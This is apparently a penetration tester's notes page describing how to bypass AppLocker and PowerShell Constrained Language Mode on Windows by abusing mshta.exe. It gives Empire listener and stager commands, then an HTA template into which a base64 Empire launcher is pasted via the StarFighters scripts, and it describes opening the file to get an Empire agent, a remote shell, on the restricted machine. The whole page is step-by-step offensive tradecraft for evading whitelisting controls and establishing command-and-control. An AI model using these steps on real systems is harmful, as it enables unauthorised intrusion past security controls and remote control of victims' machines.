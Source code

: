 # Bypassing Applocker and Powershell contstrained language mode

[https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/](https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/)

There will be environments where Applocker severely restricts which commands can be run on a system. That means no binaries that are not signed by Microsoft. Usually this means an environment where you basically have access to certain whitelisted applications like Internet explorer and notepad. This means getting a shell will be hard.

There could also be the restriction of Powershell constrained language mode too, which prevents you from running anything Powershell related. That means no Powershell scripts can be executed either.

However, both these features can be bypassed using a technique known as abusing mshta.exe, which is a binary used for executing html applications and it's typically installed along Internet Explorer.

A machine with some level of user access is of course a prequisite for this to work. The goal of this is to get a shell through an Empire agent. The only caveat of this technique is that it requires .NET framework 3.5 feature to be enabled to work .NET framework 3.5 feature is something that is not enabled by default in Windows 10 on a clean install.

We want to abuse the fact that we can launch mshta files, which is basically

Set up an Empire listener and generate a base64 encoded launcher. Copy the launcher when done

```
uselistener http
set Port 81
execute
back
usestager multi/launcher
set Listener http
generate
agents
```

Now use StarFighter whic is JavaScript and VBScript Based Empire Launcher, which runs within their own embedded PowerShell Host. This means you don't have to rely on powershell.exe from the target, which you can't execute because of the restrictions set.

[https://github.com/Cn33liz/StarFighters](https://github.com/Cn33liz/StarFighters)

Paste the Empire launcher into the vbs or js where indicated. Name the file with .hta as extension.

```
<body onclick="if(confirm('Close? (onclick)')){self.close();}">
<h1>Test Page</h1>
<script language="VBScript">
StarVighter.vbs contents go here with copypasted powershell
</script>
</body>
```

Then get the file on the box, right click on it, select Open with-&gt; Microsoft \(R\) HTML Application host and it should immediately launch and you should get an agent in Empire.

![](/assets/import.png)

